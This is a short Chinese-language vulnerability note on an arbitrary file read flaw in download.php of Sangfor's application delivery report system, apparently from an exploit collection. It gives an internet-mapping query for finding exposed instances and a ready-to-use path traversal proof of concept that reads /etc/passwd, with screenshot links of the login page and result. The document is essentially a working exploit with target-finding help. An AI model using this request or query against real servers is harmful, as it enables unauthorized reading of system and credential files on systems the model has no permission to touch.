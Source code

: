 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>深信服 应用交付报表系统</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="SANGFOR-应用交付报表系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646063330818-50320d99-80e6-4f24-9ac7-1de5acf8d3d6.png)

验证POC

```javascript
/report/download.php?pdf=../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1646063383225-b9436429-8a97-4675-9a24-29539b3e5be5.png)
